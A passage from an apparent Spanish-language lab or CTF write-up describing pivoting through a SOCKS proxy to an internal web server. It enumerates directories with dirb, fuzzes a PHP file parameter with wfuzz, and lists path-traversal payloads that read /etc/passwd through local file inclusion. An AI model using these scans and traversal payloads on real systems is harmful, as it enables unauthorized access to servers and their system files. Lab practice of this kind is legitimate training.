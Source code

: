 Ahora desde el navegador **firefox** en **(settings > ServidorSocks )** cargamos la direccion IP y el puerto
```bash
127.0.0.1 1080
```

Seleccionamos **SOCKSv5** y guardamos la configuracion: Ahora si ingresamos desde una nueva ventana en **firefox** a la siguiente direccion ip
```bash
http://20.20.20.3/
```
##### Maquina objetivo `30.30.30.3`
Ahora tenemos este servicio http
```bash
http://20.20.20.3/
```

Ahora que ya tenemos conexion con la maquina ahora lanzamos un escaneo para determinar si existen directorios
```bash
proxychains dirb http://20.20.20.3/ 2>/dev/null
```

Tenemso el siguiente directorios:
```bash
---- Scanning URL: http://20.20.20.3/ ----
+ http://20.20.20.3/index.html (CODE:200|SIZE:10701)
+ http://20.20.20.3/server-status (CODE:403|SIZE:275)
==> DIRECTORY: http://20.20.20.3/shop/                                                                                                                                                                                                                                       
---- Entering directory: http://20.20.20.3/shop/ ----
+ http://20.20.20.3/shop/index.php (CODE:200|SIZE:1112) 
```

Ingresamos a la siguiente url
```bash
http://20.20.20.3/shop/index.php
```

Tenemos una web para venta de teclados que contiene el siguiente error:
```bash
"Error de Sistema: ($_GET['archivo']");
```

Ahora sabemos que esta realizando una llamada al parametro **archivo** asi que realizaremos fuzzing para ver si podemos derivarlo a un **LFI**
```bash
proxychains wfuzz -c -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://20.20.20.3/shop/index.php?archivo=FUZZ" --hl=44
```

Tenemos estas formas posibles de derivar un **LFI**
```bash
"../../../../etc/passwd"            
"../../../../../../../../etc/passwd"
"../../../../../etc/passwd"         
"../../../../../../etc/passwd"      
```
